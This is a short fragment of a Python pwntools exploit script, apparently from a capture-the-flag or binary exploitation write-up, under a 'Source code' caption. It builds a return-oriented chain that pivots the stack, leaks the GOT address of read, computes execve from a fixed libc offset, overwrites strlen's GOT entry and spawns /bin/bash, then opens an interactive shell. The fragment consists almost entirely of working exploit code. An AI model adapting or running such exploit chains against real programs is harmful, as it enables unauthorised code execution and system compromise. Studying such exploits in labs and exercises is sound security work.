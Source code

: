 ```py
payload += p32(elf.bss()) #ebp
payload += p32(read)
payload += p32(leave_ret)
payload += p32(0)
payload += p32(elf.bss(4))
payload += p32(elf.got['read'])

io.send(payload)
io.clean()

# call write(1,read_GOT,4)
payload2 = b""
payload2 += p32(add_eax)
payload2 += p32(jmp_eax)
payload2 += p32(pop_3)
payload2 += p32(1)
payload2 += p32(elf.got['read'])
payload2 += p32(4)
# read execve into strlen
payload2 += p32(read)
payload2 += p32(pop_3)
payload2 += p32(0)
payload2 += p32(elf.got['strlen'])
payload2 += p32(4)
# call execve
payload2 += p32(elf.plt['strlen'])
payload2 += b"AAAA" # Dummy data
payload2 += p32(elf.bss(17*4))
payload2 += p32(0)*2
payload2 += b"/bin/bash\x00"
payload2 = payload2.ljust(0xa0,b"\x90")
  
io.send(payload2)
leak = u32(io.read(4))
print("[!] Leak:", hex(leak))
execve = leak-162352
print("[!] Execve:", hex(execve))

io.send(p32(execve))

io.interactive()
```
